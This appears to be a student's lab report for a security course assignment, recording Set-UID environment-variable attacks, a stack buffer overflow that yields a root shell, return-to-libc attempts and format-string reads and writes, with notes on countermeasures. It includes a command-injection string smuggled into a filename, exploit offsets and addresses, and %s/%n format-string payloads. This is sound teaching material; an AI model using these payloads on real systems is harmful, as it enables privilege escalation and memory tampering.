# Assignment 2 Report

## Scope

This document will accumulate the final write-up for Assignment 2.

The work will be organized around the four major sections in the assignment:

1. Task 2: Environment Variable and Set-UID Program
2. Task 3: Buffer Overflow Vulnerability
3. Task 4: Return-to-libc Attack
4. Task 5: Format String Vulnerability

Evidence for each completed task will be embedded directly in this document as screenshots, code blocks, and command output excerpts.

## Task 2.1 Manipulating Environment Variables

I used `printenv` to inspect the environment in the `seed` account and then demonstrated the full `export` and `unset` cycle with a test variable.

```text
$ export TASK2_DEMO="test string"
$ printenv TASK2_DEMO
test string

$ unset TASK2_DEMO
$ printenv TASK2_DEMO
```

This satisfies the required evidence for printing, setting, and unsetting environment variables.



## Task 2.2 Environment Variable and Set-UID Programs

I compiled the Set-UID environment dumper, ran it as `seed`, and checked whether `PATH`, `LD_LIBRARY_PATH`, and `ANY_NAME` reached the privileged child process.

```text
ANY_NAME=seed_magic
PATH=/tmp/task2_path:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

`LD_LIBRARY_PATH` was absent from the child output, while `PATH` and `ANY_NAME` were inherited. The most important takeaway is that dangerous dynamic-loader variables are sanitized for Set-UID execution, but ordinary user variables are not.



## Task 2.3 The `PATH` Environment Variable and Set-UID Programs

I used a malicious replacement `ls` that printed its real and effective UIDs. The vulnerable Set-UID program called `system("ls")`, so command resolution depended on `PATH`.

Custom `ls.c`:

```c
#include <stdio.h>
#include <unistd.h>

int main(void)
{
    printf("This is my ls program\n");
    printf("My real uid is: %d\n", getuid());
    printf("My effective uid is: %d\n", geteuid());
    return 0;
}
```

Observed behavior:

```text
Default /bin/sh -> dash
This is my ls program
My real uid is: 1000
My effective uid is: 1000

Countermeasure disabled
This is my ls program
My real uid is: 1000
My effective uid is: 0
```

This shows that `PATH` manipulation can redirect the Set-UID program to attacker code. Whether the attacker keeps root privilege depends on whether the invoked shell drops privilege.



## Task 2.4 The `LD_PRELOAD` Environment Variable and Set-UID Programs

I built a shared library that overrides `sleep()` and ran the same program under four different privilege configurations.

```text
Case 1: regular program run by seed
I am not sleeping!

Case 2: setuid-root program run by seed
[no output]

Case 3: setuid-root program run by root
I am not sleeping!

Case 4: setuid-user1 program run by seed
[no output]
```

The result shows that `LD_PRELOAD` works when there is no privileged transition, but it is stripped when the real and effective UIDs differ and the dynamic loader enters secure-execution mode.



## Task 2.5 Invoking External Programs Using `system()` Versus `execve()`

I tested the same injected argument against both versions of the wrapper:

```text
/tmp/task25/secret.txt; echo compromised > /tmp/task25/protected.txt
```

Results:

```text
System() attack output
TOP SECRET

Execve() attack output
cat: '/tmp/task25/secret.txt; echo compromised > /tmp/task25/protected.txt': No such file or directory

protected.txt contents:
compromised
```

`system()` was vulnerable because the shell interpreted the injected metacharacters and executed a second command. `execve()` was not vulnerable because it treated the full string as a literal filename.



## Task 2.6 Capability Leaking

I ran the Set-UID capability-leaking demo against a root-owned `/etc/zzz` and compared the file before and after execution.

```text
Before:
Original line

After:
Original line
Malicious Data
```

The file was modified even after `setuid(getuid())` dropped the effective root identity. The reason is that the process had already opened `/etc/zzz` while privileged, and the inherited file descriptor still carried that capability into the compromised child process.



## Task 3.2 Running Shellcode

I compiled the provided shellcode launcher as a 32-bit binary, marked the stack executable, and ran it from the `seed` account. The shellcode successfully invoked `/bin/sh` and accepted commands from standard input.

```text
$ printf "whoami\nexit\n" | ./call_shellcode
seed
```

This confirmed that the payload was valid before using it in the buffer-overflow exploit.



## Task 3.4 Exploiting the Vulnerability

I completed the exploit generator by filling `badfile` with a NOP sled, placing the shellcode near the end of the 517-byte input, and overwriting the saved return address with the address of the `str` buffer in `main()`.

The final working values were:

```text
Return address: 0x40800b6f
Offset: 28
```

The generated exploit produced a root shell:

```text
$ ./exploit_arg 0x40800b6f 28
ret = 0x40800b6f
offset = 28
shellcode_start = 492

$ printf "id\nwhoami\nexit\n" | ./stack
uid=0(root) gid=1000(seed) groups=1000(seed)
root
```

This shows that the overwritten return address redirected execution into the injected shellcode.



## Task 3.5 Defeating dash's Countermeasure

I first verified dash's behavior with two Set-UID test programs. Without `setuid(0)`, dash dropped the privilege and the shell ran as `seed`. With `setuid(0)` inserted before `execve("/bin/sh", ...)`, dash no longer dropped the privilege and the shell ran with root effective UID.

```text
Without setuid(0):
uid=1000(seed) gid=1000(seed) groups=1000(seed)
seed

With setuid(0):
uid=0(root) gid=1000(seed) groups=1000(seed)
root
```

I then updated the exploit shellcode to prepend the `setuid(0)` system call. Using the same return address and overwrite offset as Task 3.4, the exploit succeeded even when `/bin/sh` pointed to `/bin/dash`:

```text
$ printf "id\nwhoami\nexit\n" | ./stack
uid=0(root) gid=1000(seed) groups=1000(seed)
root
```



## Task 3.6 Defeating Address Randomization

I repeated the attack without `setarch -R` and checked the kernel randomization setting inside the container. The setting was already enabled:

```text
/proc/sys/kernel/randomize_va_space = 2
```

However, the stack addresses remained unchanged across repeated runs:

```text
str=0x40800b6f
buffer=0x40800b1c
ret_addr_slot=0x40800b3c
```

Because the addresses did not move in this emulated 32-bit runtime, the original exploit still succeeded on the first attempt:

```text
$ printf "id\nwhoami\nexit\n" | ./stack
uid=0(root) gid=1000(seed) groups=1000(seed)
root
```

Under a normal native Linux environment, ASLR should randomize these stack locations and make the hard-coded return address unreliable. In this containerized execution path, that expected variation was not observable.



## Task 3.7 Stack Guard Protection

I investigated Stack Guard under two build paths. The `x86-linux-musl` build path did not emit a canary check inside `bof()`, even when `-fstack-protector-all` was supplied. The `x86-linux-gnu` build path did emit the expected canary logic, including a canary load from `%gs:0x14` and a call to `__stack_chk_fail` in the function epilogue.

Relevant disassembly excerpt:

```text
228f9: 65 a1 14 00 00 00    movl   %gs:0x14, %eax
228ff: 89 45 f8             movl   %eax, -0x8(%ebp)
...
2294f: 65 a1 14 00 00 00    movl   %gs:0x14, %eax
22955: 8b 4d f8             movl   -0x8(%ebp), %ecx
22958: 39 c8                cmpl   %ecx, %eax
2295a: 75 0b                jne    0x22967 <bof+0x87>
2296a: e8 b1 0d 06 00       calll  0x83720 <__stack_chk_fail>
```

In the current container, I could not run that `x86-linux-gnu` binary end to end because the required 32-bit glibc userspace was unavailable and package installation remained blocked. The evidence therefore documents the Stack Guard mechanism through the generated code path rather than a native runtime crash.



## Task 3.8 Non-executable Stack Protection

I recompiled the vulnerable program without enabling an executable stack and reran the same exploit from Task 3.4. The attack no longer produced a shell.

```text
$ printf "id\nwhoami\nexit\n" | ./stack_noexec
qemu: uncaught target signal 11 (Segmentation fault) - core dumped
Segmentation fault
```

The reason is that the return address still transfers control to the stack buffer, but the stack page is not executable, so the CPU faults immediately instead of running the injected shellcode.



## Task 4.5 Exploiting the Vulnerability

I completed the return-to-libc payload layout and validated the key addresses and overwrite slots. The initial exploit configuration was:

```text
system() = 0x0001a2bc
exit()   = 0x0001a26e
/bin/sh  = 0x40800f09
X = 42
Y = 34
Z = 38
```

The overwrite positions came from the debug layout of `bof()`:

```text
shell=0x40800f09
buffer=0x40800cca
saved_ebp=0x40800ce8
ret_slot=0x40800cec
arg_slot=0x40800cf0
ret_offset=34
arg_offset=38
Returned Properly
```

I then checked the actual Set-UID `seed` execution path and found that the `MYSHELL` address changed:

```text
0x40800f3a
```

This confirmed that the `"/bin/sh"` pointer depends on the exact runtime context. I also verified that direct helper binaries calling `system("/bin/sh")` did execute with effective root privilege:

```text
uid=0(root) gid=1000(seed) groups=1000(seed)
root
```

However, the actual return-to-libc control-flow hijack consistently failed in this QEMU-emulated Set-UID runtime. The baseline exploit and a brute-force sweep over offsets `30` and `34` and shell addresses `0x40800f00` through `0x40800f60` all ended with the same crash:

```text
qemu: uncaught target signal 11 (Segmentation fault) - core dumped
Segmentation fault
```

Because the baseline attack never reached a stable shell, removing `exit()` in Step 2 did not reveal a qualitatively different post-shell crash, and changing the program name in Step 3 would only reinforce the same issue: environment-based `"/bin/sh"` pointers are fragile and depend on the exact program/runtime layout.



## Task 4.6 Address Randomization

I repeated the Task 4.5 setup with address randomization enabled and checked the runtime state inside the Linux i386 container:

```text
$ cat /proc/sys/kernel/randomize_va_space
2
```

Even with that setting, the helper address remained perfectly stable across repeated runs:

```text
Root runs:
0x40800f0d
0x40800f0d
0x40800f0d
0x40800f0d
0x40800f0d

seed runs:
0x40800f3a
0x40800f3a
0x40800f3a
0x40800f3a
0x40800f3a
```

The exploit result was also unchanged across repeated attempts:

```text
qemu: uncaught target signal 11 (Segmentation fault) - core dumped
Segmentation fault
```

On a normal native Linux system, ASLR should make return-to-libc significantly harder because hard-coded libc and environment addresses become unreliable. In this emulated 32-bit runtime, the kernel reported ASLR enabled but the critical addresses did not move, so the expected ASLR effect was not observable.



## Task 4.7 Stack Guard Protection

I rebuilt the vulnerable program with Stack Guard enabled using:

```text
zig cc -target x86-linux-musl assignment2/tasks/task4/task01/retlib.c \
    -o assignment2/tasks/task4/task03/output/retlib_stackguard \
    -DBUFSIZE=22 -fstack-protector-all -no-pie -z noexecstack
```

The protected binary contains the expected canary symbols:

```text
__stack_chk_guard
__stack_chk_fail
__stack_chk_fail_local
```

Its disassembly also shows the canary load/check sequence in `bof()`:

```text
00019d50 <bof>:
   19d59: 65 a1 14 00 00 00    movl   %gs:0x14, %eax
   19d5f: 89 45 fc             movl   %eax, -0x4(%ebp)
   ...
   19dac: 65 a1 14 00 00 00    movl   %gs:0x14, %eax
   19db5: 39 c8                cmpl   %ecx, %eax
   19dc1: e8 fd 04 00 00       calll  __stack_chk_fail_local
```

Running the same malicious input against the protected binary in this environment still ended with:

```text
qemu: uncaught target signal 11 (Segmentation fault) - core dumped
Segmentation fault
```

Even though the emulator did not print a friendly `stack smashing detected` message, the protected binary clearly includes the Stack Guard mechanism. On a native runtime, corrupting the return address would also corrupt the canary, causing the process to abort through `__stack_chk_fail_local` before it could jump to `system()`.



## Task 5.1 Crash the Program

I reconstructed the missing format-string lab binary from the assignment text, compiled it as a Linux i386 executable, and first used a stack-probe input to identify where `int_input` appears in `printf(user_input)`. The probe showed that the decimal integer becomes the 21st consumed argument:

```text
MARK.40800d3c.40800eff.0.0.0.0.0.0.40804040.40804044.40804044.40804040.40804044.40804044.40804040.0.0.0.0.0.55667788.40804040.4b52414d...
```

I then used this crashing input:

```text
1
%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%s
```

The first 20 `%x` conversions consume stack arguments 1 through 20, and the final `%s` dereferences argument 21, which is `int_input = 1`. That makes `printf` read from address `0x00000001`, causing a segmentation fault.

```text
The variable secret's address is 0x40800d38 (on stack)
qemu: uncaught target signal 11 (Segmentation fault) - core dumped
```



## Task 5.2 Print out the `secret[1]` Value

From the program output, `secret[1]` is stored at heap address `0x40804044`, whose decimal form is `1082146884`. I used that as the integer input and kept the same 20-argument stack walk:

```text
1082146884
%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%s
```

After the first 20 `%x` conversions, `%s` uses the 21st argument, i.e. `int_input = 0x40804044`. It therefore dereferences `secret[1]` and prints the bytes stored there. Because `secret[1] = 0x00000055`, the first byte is ASCII `U` and the next byte is `0x00`, so the output ends with `U`:

```text
... .U
The original secrets: 0x44 -- 0x55
The new secrets: 0x44 -- 0x55
```

This shows that the value stored at `secret[1]` is `0x55`.



## Task 5.3 Modify the `secret[1]` Value

I next used `%n` to write through the same `int_input` stack slot:

```text
1082146884
%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%n
```

The 20 `%c` conversions consume arguments 1 through 20 and print exactly 20 characters in total. The final `%n` then uses argument 21, which is `int_input = 0x40804044`, so it writes `20` decimal (`0x14`) into `secret[1]`.

The captured result was:

```text
The original secrets: 0x44 -- 0x55
The new secrets: 0x44 -- 0x14
```

So the format-string exploit successfully modified `secret[1]`.



## Task 5.4 Modify the `secret[1]` Value to 80 Decimal

Finally, I controlled the exact printed-character count before `%n`:

```text
1082146884
%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%61c%n
```

Here the first 19 `%c` conversions print 19 characters, and `%61c` prints a field of width 61 using argument 20. Therefore the total number of characters printed before `%n` is:

```text
19 + 61 = 80
```

When `%n` executes, it again uses argument 21, i.e. `int_input = 0x40804044`, and writes `80` decimal (`0x50`) into `secret[1]`.

The final output confirms the exact target value:

```text
The original secrets: 0x44 -- 0x55
The new secrets: 0x44 -- 0x50
```


